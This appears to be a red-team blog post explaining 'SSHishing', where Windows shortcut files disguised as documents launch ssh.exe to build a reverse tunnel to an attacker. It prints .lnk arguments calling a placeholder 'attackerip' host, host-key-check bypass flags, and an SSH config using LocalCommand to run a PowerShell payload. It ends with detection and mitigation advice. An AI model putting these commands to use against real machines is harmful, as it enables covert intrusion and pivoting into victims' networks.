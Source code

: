 ```yaml
---
title: "SSHishing via Windows Shortcuts"
date: 2025-04-16 10:00:00 +0000
tags: [ssh, windows, shortcuts, cybersecurity, red-team]
categories: [malware-analysis, red-teaming]
pinned: false
---
```


## 1. Weaponizing Windows Shortcut Files (.lnk)

Windows `.lnk` files can be configured to execute arbitrary commands. Traditionally used by malware like Stuxnet, shortcut files are often disguised with misleading icons and filenames (e.g., PDFs, folders).

**Command Example:**

```plaintext
Target: C:\Windows\System32\OpenSSH\ssh.exe
Arguments: -R 1337:127.0.0.1:1337 user@attackerip -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -N
```

🔍 **What This Does:**

- Launches the built-in `ssh.exe`
- Connects to an attacker-controlled server
- Creates a reverse SSH tunnel from the victim to the attacker
- The `-N` flag ensures no shell is opened (stealthier)

---

## 2. Reverse Dynamic Port Forwarding

Using the `-R` SSH option, the attacker sets up a remote port forward. The victim machine becomes a proxy server, allowing the attacker to route traffic through the victim’s internal network.

**Reverse Tunnel Format:**

```plaintext
ssh -R [remote_port]:[local_host]:[local_port] user@attacker_ip
```

📌 **Example Use:**

- Expose an internal database or web app to the attacker
- Forward RDP or SMB ports
- Pivot deeper into the network from a compromised host

---

## 3. Enhancing with SSH Config + LocalCommand

By using an `.ssh/config` file on the attacker's side, additional functionality can be triggered post-connection.

**SSH Config Example:**

```ini
Host victim
    HostName attacker_ip
    Port 22
    User attacker
    LocalCommand powershell -ExecutionPolicy Bypass -File payload.ps1
    PermitLocalCommand yes
```

🧨 **What This Enables:**

- The attacker can execute local post-connection commands (e.g., launching a payload or modifying system settings)
- Bypasses launching PowerShell directly in the `.lnk` file, avoiding common detection rules

---

## 4. Bypassing Host Key Checks

For automation and stealth, options like the following are added:

```bash
-o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null
```

These suppress SSH warnings and allow automatic connections without host key verification, minimizing user friction.

---

## 🛡️ Detection & Mitigation

### Detection Techniques:
- Monitor for execution of `ssh.exe` outside normal use cases
- Flag command-line usage of reverse port forwarding (`-R`)
- Detect `.lnk` files invoking SSH commands
- Watch for outbound connections to uncommon ports/IPs
- Alert on local execution of SSH with `LocalCommand` enabled

### Recommended Defensive Actions:
- Use EDR/XDR tools to hunt for LOLBin abuse
- Disable unused features in Windows (e.g., OpenSSH client if not required)
- Educate users about suspicious files disguised as documents or shortcuts
- Enforce network segmentation and egress filtering

